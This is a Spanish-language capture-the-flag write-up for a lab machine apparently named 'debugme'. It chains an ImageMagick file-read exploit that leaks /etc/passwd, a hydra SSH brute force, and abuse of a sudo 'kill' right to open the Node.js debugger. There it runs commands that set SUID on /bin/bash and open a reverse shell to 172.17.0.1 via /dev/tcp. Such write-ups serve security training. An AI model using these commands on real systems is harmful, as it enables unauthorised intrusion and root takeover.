 nmap:  443, 80, 22

![image](https://github.com/user-attachments/assets/49f75831-c32a-4554-9753-b7c610099ee0)


---
entramos a la pagina principal y nos da esto:

![image](https://github.com/user-attachments/assets/7e0cb7f2-b4e8-47a6-8a08-10226e7e6d2c)


hay una subida de imagen o pdf y encontré este exploit que roba metadatos: https://github.com/voidz0r/CVE-2022-44268

seguimos los pasos y subimos la imagen 1200x1200

![image](https://github.com/user-attachments/assets/1fa9aaf9-cfe5-4db4-b69d-23a73cd077bf)


después guardamos la foto desde la pagina subida y al guardarla nos dará muchos números.
![[primer paso nombre.png]]

lanzamos este comando con el numero dentro de los ""

>python3 -c 'print(bytes.fromhex("con el numero que nos dio"))'

y al final dará:
![[etcpasswd.png]]

y nos dará el listado de "/etc/passwd" con un usuario llamado "lenam"

hacemos fuerza bruta

     - hydra -l lenam -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2

nos da la contraseña: loverboy
![[dockerlabs/dificil/debugme/fuerza bruta.png]]
dentro al hacer sudo -l aparece: "kill"
![[kill.png]]
al hacer un "ps aux" vemos que en el PID 53 se ejecuta un "index.js"
![[codigojs.png]]

buscamos en: https://book.hacktricks.xyz/linux-hardening/privilege-escalation/electron-cef-chromium-debugger-abuse

y vemos que podemos escalar con: kill -s SIGUSR1 nodejs-ps
![[ejecucion 1.png]]

que quedaría:  sudo kill -s SIGUSR1 49 (o según se ejecute en este caso 49)
ahora si ejecutamos: netstat -atunop vemos que se reinicia ya hora esta habitado el puerto 9229
![[nuevopuerto.png]]

nos conectamos por la IP y puerto que da:  node inspect 127.0.0.1:9229

dentro del debug ejecutamos: 

    - exec("process.mainModule.require('child_process').exec('chmod u+s /bin/bash')")

ahora salimos y ejecutamos el bash -p

![[dockerlabs/dificil/debugme/root.png]]

pero no somos root absoluto, modificamos el código para una reverse shell

    - exec("process.mainModule.require('child_process').exec('bash -c \"/bin/bash -i >& /dev/tcp/172.17.0.1/443 0>&1\"')")

![[root absolute.png]]

y somos root!
